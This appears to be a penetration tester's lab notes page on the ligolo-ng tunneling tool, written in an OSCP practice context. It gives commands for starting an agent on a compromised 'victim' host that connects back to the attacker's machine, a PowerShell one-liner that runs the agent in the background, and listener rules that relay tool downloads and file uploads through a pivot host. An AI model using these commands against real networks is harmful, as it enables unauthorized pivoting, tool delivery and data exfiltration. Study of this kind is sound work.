






---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# ligolo-ng

[`ligolo-ng`](https://github.com/nicocha30/ligolo-ng) is the best tool for tunneling particularly when attempting to go through a pivot machine into the internal network. It runs with root privileges but allows the attacker to just use IP addresses natively without concern.

The software is split into 2 pieces:

1. **Proxy:** runs on the attacker's machine and acts as the connection hub (must be run with elevated privileges because it manipulates the machine's interfaces)
2. **Agent:** run on the victim machines to connect back to proxy. Only user permissions needed.

## Install

The easiest thing to do is to just follow the installation instructions on the GitHub page. Download with:

<pre class="language-bash"><code class="lang-bash">cd `go env GOPATH`/src
<strong>git clone https://github.com/nicocha30/ligolo-ng.git
</strong></code></pre>

On my machine I really only need the proxy file so I build it with:

```bash
go build -o proxy cmd/proxy/main.go
```

### Agents

I also head to the [releases page](https://github.com/nicocha30/ligolo-ng/releases) and grab a pre-compiled Windows agent to place on victim machines.

## Proxy Set Up

Prior to using `ligolo-ng` I must set up an interface for it. This can be done either via the command line or the ligolo-ng interface.

### Command Line

I do this with the following commands:

```bash
sudo ip tuntap add user $USER mode tun <interface_name>
```

```bash
sudo ip link set <interface_name> up
```

### User Interface

Alternatively I can launch the ligolo-ng interface:

```bash
sudo ./proxy
```

* Run `proxy` binary as sudo to allow it to handle interface manipulation
* `-laddr` can be used to customize the listener's location on an accessible port to the victim

The console looks like this once launched:

<figure><figcaption><p>ligolo-ng interface</p></figcaption></figure>

Once running I can simple use the command:

```
interface_create --name "<interface_name>"
```

Once the interface is stood up I am ready to start an agent on a victim.

## Agent

The agent is run on the victim machine. In this example I will be running it on a machine called `WEB02` which serves as a pivot between a `192.168.225.0/24` network to which I am connects and an internal `172.16.225.0/24` network which I want to reach.

I assume I have compromised a victim machine. In this instance the shell on the victim is running as `SYSTEM` but it _does not need to be elevated_, it can be just any user.

To launch the agent I simple use:

```
C:\Windows\Temp\ligolo_agent.exe -connect 192.168.45.154:5984 -ignore-cert
```

<figure><figcaption></figcaption></figure>

This launches a session which I can see on my proxy listener:

<figure><figcaption><p>Agent joined notification</p></figcaption></figure>

### PowerShell

If I have access to PowerShell I can use this one-liner to start it in the background and not lose use of my shell:


```bash
$scriptBlock = { Start-Process C:\Windows\Temp\ligolo_agent.exe -ArgumentList @('-connect 192.168.45.154:5985', '-ignore-cert') }; Start-Job -ScriptBlock $scriptBlock
```


<figure><figcaption><p>Note the session returned and is still interactive</p></figcaption></figure>

## Session

I can now use my proxy interface to select the `session` using the session command:

<figure><figcaption><p>Session selection</p></figcaption></figure>

## Tunnel Launch

Once the session has been selected I simply create a tunnel with the command:

```
tunnel_start --tun "<interface_name>"
```

And then I can add a route with:

```
interface_add_route --name "<interface_name>" --route 172.16.225.0/24
```

<figure><figcaption><p>Full tunnel start output</p></figcaption></figure>

## Using the Tunnel

Once set up, I can simply use the tunnel just by addressing traffic to the `172.16.225.0/24` network:

<figure><figcaption><p>Using the tunnel IPs natively</p></figcaption></figure>

This makes it very easy to work with. I have yet to find a type of traffic I cannot send over this tunnel.

### Port Forwarding

Consider a scenario where a victim machine is the pivot point between the external and internal networks such as this:

<figure><figcaption><p>Pivot to internal</p></figcaption></figure>

The `ligolo_ng` agent would be running on the `PIVOTE` machine in this diagram. proxy would be running on the attacker's machine, `MSF`. This works perfectly for traffic flowing `MSF` -> `TARGET`. However it may not be possible for `TARGET` to reach `MSF`. if `TARGET` does not possess a route to the external network/Internet. If TARGET is only routed to other `TARGET` machines and `PIVOTE` but traffic cannot exit that subnet, an attacker running a shell on `TARGET` would not be able to download tools from `MSF` because it is unreachable.

Fortunately, ligolo\_ng has this situation covered. From the proxy shell session (on MSF) the attacker can remotely add a listener on `PIVOTE` that would allow traffic to flow back to MSF.

```
listener_add --addr <listen_interface>:<listen_port> --to <dest_ip>:<dest_port>
```

* `--addr` is the address (on the agent) which will listen for incoming traffic
  * Set to `0.0.0.0` to listen on all interfaces
* `--to` is the destination for traffic received at `--addr`

#### Example

In the practice exam OSCP A there is a machine, `MS01`, that serves as the pivot between the internal and external networks. It is where the `ligolo_ng` agent is run in that lab.

On the internal network is a machine, `MS02`, that can only route traffic to the internal network. So when I gained WinRM access to `MS02` I was unable to download tools from my HTTP server on my machine. To solve this I added a listener on port `8000` of `MS01` that would route any received traffic to my HTTP server at `192.168.45.154:80`. From _inside a selected session_ I use the command below to add a listener:

```
listener_add --addr 0.0.0.0:8000 --to 192.168.45.154:80
```

* &#x20;`--addr` tells `MS01` to listen on all interfaces (`0.0.0.0`) at port 8000 for traffic to forward
* `--to` specifies the address of my HTTP server

<figure><figcaption><p>Listener setup commands</p></figcaption></figure>

After execution I can see the listener at port 8000 from my shell session on MS01:

<figure><figcaption><p>Viewing the listener on the victim</p></figcaption></figure>

After the listener is set up I can use it from `MS02` by attempting to access my web server at the internal address of `MS01` (`10.10.158.141`) on port 8000

<figure><figcaption><p>Network configuration of MS02</p></figcaption></figure>

<figure><figcaption><p>Successful download with port forward</p></figcaption></figure>

The same listener can be used to upload files back to my HTTP server.

## Tear-down

It is important to remove the created interfaces and stop the tunnel when shutting down `ligolo_ng`.

### User Interface

To tear down a tunnel, first the tunnel is stopped with either the `tunnel_stop` or the `stop` command.

```
tunnel_stop
```

Then remove any routes associated using the `del_route` command:

```
del_route --route 172.16.225.0/24
```

Then use the following command to delete the network interface from the local machine:

```
ifdel --name "<interface_name>"
```

This example shows deleting an interface `external_relia` which is handling a route to `172.16.158.0/24`:

<figure><figcaption><p>Deleting a tunnel via the interface</p></figcaption></figure>

### Command Line

If I do not tear down the tunnel before exiting the [`proxy` session](ligolo-ng.md#proxy-set-up) it will remain on the machine until deleted. This can cause an issue if I attempt to use `ligolo-ng` and create an interface with the same name again.

After exiting the console I can use the following command to remove the tunnel:

```bash
sudo ip tuntap del mode tun "<interface_name>"
```
